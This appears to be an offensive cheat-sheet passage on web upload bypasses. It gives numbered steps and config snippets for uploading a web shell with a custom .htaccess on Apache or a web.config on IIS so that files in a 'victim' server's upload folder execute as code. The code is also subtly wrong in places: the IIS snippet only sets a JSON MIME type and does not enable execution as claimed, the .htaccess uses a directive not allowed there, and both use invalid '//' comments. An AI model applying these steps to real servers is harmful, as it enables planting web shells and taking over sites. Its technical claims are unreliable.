 ### Apache 

Drop a custom `.htaccess` alongside your upload:
1. Upload your `shell.l33t` (or any ext) + this `.htaccess`.
2.  Hit `http://victim/uploads/shell.l33t` → server runs it as PHP.
 **Requirements:** `AllowOverride` must be enabled in Apache’s main config.

```apacheconf
// .htaccess lives in directories, links PHP execution to .php files
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php

// If PHP isn’t allowed by default, map a “weird” extension
// Upload e.g. shell.l33t instead of shell.php
AddType application/x-httpd-php .l33t
```

/////////////////////////////////////////////////////////////////////////////////////////////////////////

### IIS

web.config file manipulation:
1. Upload `exploit.json` containing your ASPX/PHP payload.
2. Upload the above `web.config` to the same folder.
3. Access `http://victim/uploads/exploit.json` → IIS treats it as executable.
**Tip:** Put `web.config` at the root of your upload directory.

```xml
// web.config example allows execution of .json files
<configuration>
  <system.webServer>
    <staticContent>
      <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
  </system.webServer>
</configuration>

```
